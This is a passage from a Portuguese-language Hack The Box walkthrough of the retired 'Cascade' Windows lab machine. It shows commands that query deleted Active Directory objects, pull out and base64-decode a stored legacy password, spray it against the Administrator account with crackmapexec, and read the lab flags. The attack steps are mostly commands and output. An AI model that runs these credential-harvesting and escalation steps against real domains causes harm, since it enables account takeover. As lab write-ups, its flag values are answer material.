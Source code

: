 Á resposta deste comando nesta máquina não é muito grande... mas normalmente é enorme. Por isso, recomendo exportar para um ficheiro, fazer o download deste para a nossa maquina, e fazer um grep por "**LegacyPwd e CanonicalName**" ´

```bash
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties * > output.txt
# Pelo evil-winrm, é possível fazer donwload e upload directamente com a ferramenta:
download "C:/Users/arksvc/Documents/output.txt"
```

```bash
# kali
cat output.txt | grep -Ei "Legacypwd|canonicalName"

#>  CanonicalName                   : cascade.local/Deleted Objects
#>  CanonicalName                   : cascade.local/Deleted Objects/CASC-WS1
#>  CanonicalName                   : cascade.local/Deleted Objects/Scheduled Tasks
#>  CanonicalName                   : cascade.local/Deleted Objects/{A403B701-A528-4685-A816-FDEE32BDDCBA}
#>  CanonicalName                   : cascade.local/Deleted Objects/Machine
#>  CanonicalName                   : cascade.local/Deleted Objects/User
#>  CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
#>  cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
```

O último objecto cascade.local/Deleted Objects/TempAdmin tem como password logo abaixo YmFDVDNyMWFOMDBkbGVz (que me parece ser base64 também, mesmo não existing um "=" ou dois "==" no final)

```bash
echo YmFDVDNyMWFOMDBkbGVz | base64 -d
#>  baCT3r1aN00dles
```

Esta password era do usuário TempAdmin, mas o ficheiro html nos indicava que este usuário tinha a mesma password do que o administrador. Vamos fazer um spray na mesma com crackmapexec, mas à partida não há dúvidas

![crackmapexec Administrator](Assets/HTB-Windows-Medium-Cascade/crackmapexec-admin.png)

Está feito! Somos donos da máquina...

```bash
cmd /c 'dir /r /s root.txt user.txt 2>NUL'

(type C:\Users\Administrator\Desktop\root.txt).SubString(0,15)
#>  84c82c72c538ca8
(type C:\Users\s.smith\Desktop\user.txt).SubString(0,15)
#>  2c684f92b315c28
```
